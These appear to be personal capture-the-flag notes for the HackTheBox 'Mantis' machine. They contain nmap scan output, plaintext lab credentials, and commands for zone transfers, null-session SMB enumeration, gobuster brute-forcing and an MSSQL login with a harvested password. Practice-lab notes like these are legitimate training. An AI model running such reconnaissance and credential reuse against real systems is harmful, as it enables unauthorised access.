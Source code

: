 ```bash
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc        Microsoft Windows RPC
49166/tcp open  msrpc        Microsoft Windows RPC
49170/tcp open  msrpc        Microsoft Windows RPC
49173/tcp open  msrpc        Microsoft Windows RPC
50255/tcp open  ms-sql-s     Microsoft SQL Server 2014 12.00.2000.00; RTM
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
|_ssl-date: 2022-12-18T14:09:45+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2022-12-18T14:05:24
|_Not valid after:  2052-12-18T14:05:24

---- Interesting
- from enum4linux
Domain Name: HTB
Domain Sid: S-1-5-21-4220043660-4019079961-2895681657

- from 1337, sec_notes/
admin:@dm!n_P@ssW0rd!
sa:m$$ql_S@_P@ssW0rd!
james:J@m3s_P@ssW0rd!

- smb 
host unreachable, weird. 

- mssql
--got mantis ntlmv2 hash
--cracked to ntlm, try silver ticket, failed.
--from sql query;
Server 'MANTIS\SQLEXPRESS


---- Enum 
-- dns
dig any @$tip htb.local
dig axfr @$tip htb.local

-- smb
- Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:htb.local) (signing:True) (SMBv1:True)
- smbshare, nothing. 
crackmapexec smb $tip -u '' --pass-pol
smbclient -L $tip 
smbclient -L $tip  -U ''
smbclient -L $tip  -U null
smbmap -H $tip
smbmap -H $tip -u null
smbmap -H $tip -u ''

-- web
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip:8080 -o gobuster-8080.log
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip:1337 -o gobuster-1337.log

-- mssql
## extract data
## https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md#mssql-error-based
sqsh -S $tip -U admin -P 'm$$ql_S@_P@ssW0rd!' -D 'orcharddb'
```
